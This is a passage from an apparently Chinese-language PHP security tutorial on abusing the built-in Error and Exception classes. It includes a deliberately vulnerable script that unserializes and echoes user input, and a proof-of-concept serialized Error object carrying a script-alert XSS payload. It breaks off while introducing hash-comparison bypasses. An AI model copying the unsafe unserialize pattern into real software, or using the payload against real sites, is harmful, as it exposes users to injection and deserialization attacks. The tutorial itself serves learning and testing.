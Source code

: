 ```php
```

## Error/Exception 内置类
### 使用 Error/Exception 内置类进行 XSS
> `Error`类是`PHP`的一个内置类，用于自动自定义一个`Error`，在`php7`的环境下可能会造成一个`xss`漏洞，因为它内置有一个`__toString()`方法，常用于PHP 反序列化中
> `Exception`类和`Error`类类似

> 使用情形

```php
Error 内置类:
    适用于php7版本
    开启报错的情况下

Exception 内置类:
    适用于php5、7版本
    开启报错的情况下
```

> 测试代码如下：

```php
<?php
    $demo = unserialize($_GET['cmd']);
    echo $demo;
?>
```
> `POC`代码

```php
<?php
$demo = new Error("<script>alert('h3rmesk1t')</script>");
echo urlencode(serialize($demo));
?>
```
<img src="./images/3.png" alt="">

### 使用 Error/Exception 内置类绕过哈希比较
> `Error`和`Exception`这两个`PHP`内置类，不仅限于`XSS`，还可以通过巧妙的构造绕过`md5()`函数和`sha1()`函数的比较

#### Error 类
> `Error`是所有`PHP`内部错误类的基类，该类是在`PHP7.0.0`中开始引入的
